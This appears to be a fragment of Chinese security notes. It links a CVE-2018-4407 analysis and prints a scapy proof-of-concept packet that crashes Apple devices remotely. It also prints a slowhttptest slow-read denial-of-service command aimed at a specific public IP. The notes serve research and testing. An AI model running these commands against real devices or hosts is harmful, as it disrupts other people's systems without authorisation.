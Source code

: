 ## Android

- [Android安全](./MobileSec/Android安全.md)

## IOS

**CVE-2018-4407**
- 文章
    - [远程打挂所有的 apple 设备 — CVE-2018-4407 分析](https://mabin004.github.io/2018/11/01/%E8%BF%9C%E7%A8%8B%E6%89%93%E6%8C%82%E6%89%80%E6%9C%89%E7%9A%84apple%E8%AE%BE%E5%A4%87-CVE-2018-4407-%E5%88%86%E6%9E%90/)

- POC | Payload | exp
    ```bash
    $sudo scapy
    >>send(IP(dst="192.168.1.151",options=[IPOption("A"*8)])/TCP(dport=8888,options=[(19, "1"*33)]))
    ```

## slowhttptest

```
slowhttptest -c 1000 -X -g -o -slow_read_stats -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u http://49.79.241.47/ -p 3
```